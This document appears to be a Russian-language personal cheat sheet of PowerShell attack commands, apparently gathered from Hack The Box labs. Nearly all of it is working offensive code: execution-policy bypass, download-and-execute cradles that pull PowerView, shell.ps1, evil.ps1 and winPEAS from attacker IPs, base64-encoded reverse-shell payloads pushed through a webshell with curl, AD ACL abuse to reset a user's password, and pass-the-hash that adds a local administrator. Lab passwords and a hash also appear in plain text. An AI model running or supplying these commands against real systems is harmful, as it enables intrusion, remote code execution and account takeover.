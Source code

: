 # Обход блокировка скрипта

Set-ExecutionPolicy Bypass -Scope CurrentUser -Force

# POWER

https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/

Запустить повер виев

. .\PowerView.ps1

загрузиь повервью в память

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/PowerView.ps1')

    iex(iwr -usebasicparsing http://192.168.50.123/Powerview.ps1)

"powershell "IEX(New-Object Net.WebClient).downloadString(''http://10.10.14.9/shell.ps1'')""   ---Бывает и так!!!!!

Поскольку у нас нет оболочки для JDgodd, мы можем использовать PowerShell.
 System.Management.Automation.PSCredential для хранения учетных данных в нашей текущей оболочке.

 $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd',
$SecPassword)

# Кодирование скриптов POwerShell
--Кодирование в base64

  $Shell=Get-Content -raw ./Invoke-PowerShellIcmp.ps1
  
  $bytes2 = [System.Text.Encoding]::Unicode.GetBytes($Shell)

  $Encoded2 | out-file icmp.ps1.b64

--Декодирование обратно

  $Decode =[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($Encoded2))
  
# Загрузка скрипат построчно

!/bin/bash
export IFS=$'\n'
for line in $(cat tmp.ps1.b64);
do
max="echo ${line} >> C:\Temp\max_shell.ps1"
curl -v -G -X GET 'http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx' --data-urlencode "xcmd=$max"
done


-------------------------------------
cat rev.ps1 |iconv -t UTF-16LE | base64 -w 0 (вывод)

powershell -enc (вывод)

# Восстаовление корзины

Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter {ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *

# Загрузка скрипта и выполнение

    IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/evil.ps1')

    echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6:8000/winPEAS.ps1') | powershell -noprofile 

    iwr -uri http://10.10.14.9/test -outfile test

    IEX(IWR('10.10.10.10/script.ps1'))

    iex(iwr -usebasicparsing http://192.168.50.123/Powerview.ps1)

    -----------

echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6:8000/winPEAS.ps1')" | iconv -t UTF-16LE| base64 -w0


powershell -encodedcommand ACkACgA=

    
# Доступ к ресурсу SMB

impacket-smbserver share .


Get-Content //10.10.14.4/file

net use z: //10.10.10.14/shares 
-----
$pass = "max" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PsCredential('max, $pass')

New-PSDrive -name max -root \\10.10.14.14\share -Credential $cred -PSProvider "filesystem"

# PowerShellMafia

https://github.com/PowerShellMafia/PowerSploit.git

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/evil.ps1')

PowerUP

Invoke-AllChecks

# Запуск процесса от имени другого пользователя (администратора)

$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force

$creds = New-Object System.Management.Automation.PSCredential('administrator', $passwd)

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds



$user='HTB\Tom'

$pass="01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | convertto-securestring

$credd = New-Object System.Management.Automation.PSCredential($user, $pass)

fl

# Проверка Applocker

Get-AppLockerPolicy -effective -xml 

# Сменить пароль пользователя и установить новый

Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose

$passwd = ConvertTo-SecureString 'Password123' -AsPlainText -Force
Set-DomainUserPassword Herman -AccountPassword $passwd -Verbose

# Запуск процесса powershell frm powershell зная хеш админа!!!!

https://github.com/Kevin-Robertson/Invoke-TheHash

Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
cd .\Invoke-TheHash\;Import-Module .\Invoke-TheHash.psm1
Invoke-TheHash -Type SMBExec -Target localhost -Username Administrator -Hash 2b576acbe6bcfda7294d6bd18041b8fe -Command "net localgroup Administrators max /add"

